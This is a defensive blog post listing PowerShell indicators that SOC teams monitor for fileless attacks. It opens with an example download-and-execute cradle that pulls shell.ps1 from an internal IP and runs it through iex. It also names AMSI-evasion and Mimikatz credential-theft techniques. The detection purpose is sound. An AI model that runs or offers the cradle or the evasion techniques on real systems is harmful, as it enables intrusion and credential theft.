 ```yaml
---
title: "Detecting suspicious PowerShell usage"
date: 2025-10-05T19:57:34+02:00
math: false
tags: [powershell, fileless malware]
categories: [soc]
---
```


# Detecting Suspicious PowerShell Usage


In the recent years there was an increase in the fileless techniques that abuse Powershell and other applications (LOTLs) to download and execute malware. These attacks occur generally in memory, which makes detection more complicated than traditional malware.

Let's take a look at this example:

`powershell.exe -command "iex(New-Object Net.WebClient).DownloadString(‘http://10.10.13.1/shell.ps1’)"`


The script shell.ps1 is downloaded and directly executed in memory through `iex`. Many times, attackers will encode or offuscate the commands to avoid the detection. Here is a basic list of commands to take a look for when monitoring Powershell usage:

## Common malicious commands

### Encoded Invocation
- Use of `-EncodedCommand`
- Base64 decoding via `[System.Convert]::FromBase64String(...)`
- `Invoke-Expression` (IEX) with obfuscated strings

### Policy Bypass 
- `-ExecutionPolicy Bypass` or `Unrestricted`
- Combined with `-NoProfile`, `-WindowStyle Hidden`, `-NonInteractive`

### Download and Execute
- `Invoke-WebRequest`, `Invoke-RestMethod`, `System.Net.WebClient`
- Followed by IEX or file execution

### In-Memory Compilation
- `Add-Type -TypeDefinition`
- `System.Reflection`, `Assembly::Load`, `Reflection.Assembly::Load`

### Lateral Movement 
- `Invoke-Command`, `Enter-PSSession`, `New-PSSession`
- `Get-WmiObject`, `Get-CimInstance`, `Get-ADUser`, `Get-ADComputer`

### Stealing credentials
- `Invoke-Mimikatz` - I might make another post only about Mimikatz, very common tool for redteams and hackers.
- `Get-Credential`

### Persistence
- Registry: `Set-ItemProperty` in `Run` keys
- `Register-ScheduledTask`, `schtasks`

### AMSI Evasion
- Commands offuscated like: "In"+"voke-Mi"+"mikatz"
- Commands to modify the memory of amsi.dll: `Invoke-NullAMSI`, [for example](https://github.com/BlackShell256/Null-AMSI)

## Common aliases


Some important Powershell aliases for detection are the following:

- `iex` → `Invoke-Expression`  
- `iwr` → `Invoke-WebRequest`  
- `irm` → `Invoke-RestMethod`  
- `gp` / `Get-ItemProperty` sometimes used for registry checks 
- `gcm` → `Get-Command` (used for discovery in scripts)  
- `gci` / `ls` → `Get-ChildItem` (used for local enumeration)  
- `%` → `ForEach-Object` and `?` → `Where-Object` (pipeline operators attackers use to process output)  
- `gc` → `Get-Content` (read files, logs)  
- `saps` → `Start-Process` (spawn processes)  
- `ni` → `New-Item` (create files/keys)  
- `sc` / `schtasks`
- `-EncodedCommand` / `-enc`  
- `-Command` / `-c`  
- `-NoProfile` / `-nop`  


 

